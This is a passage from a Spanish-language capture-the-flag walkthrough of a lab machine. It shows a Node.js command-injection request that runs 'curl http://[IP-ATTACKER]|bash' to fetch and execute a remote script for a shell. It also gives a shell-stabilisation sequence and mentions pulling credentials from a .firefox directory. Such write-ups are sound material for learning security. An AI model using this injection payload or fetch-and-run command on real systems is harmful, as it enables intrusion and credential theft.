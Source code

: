 ```java
❯ python3 -m http.server 80
```

Ahora vamos a obtener una shell en la maquina victima

```java
POST /api/items?cmd=require('child_process').exec('curl%20http://[IP-ATTACKER]|bash') HTTP/1.1
Host: 10.10.97.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"a9-0aR6bAfiK/DB+A79vs3kEEVvJNc"
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
Enviamos nuestra petición y obtenemos nuestra shell

## Escalada de privilegios

### Usuario **user**
![20231108104800.png](20231108104800.png)

Luego realizaremos un tratamiento de la `tty`

```java
python -c import pty; pty.spawn("/bin/bash")
ctrl+z
stty raw -echo; fg
reset
xterm
```

Enumerando encontraremos un directorio que es `.firefox`  ddel cual podemos extraer credenciales.
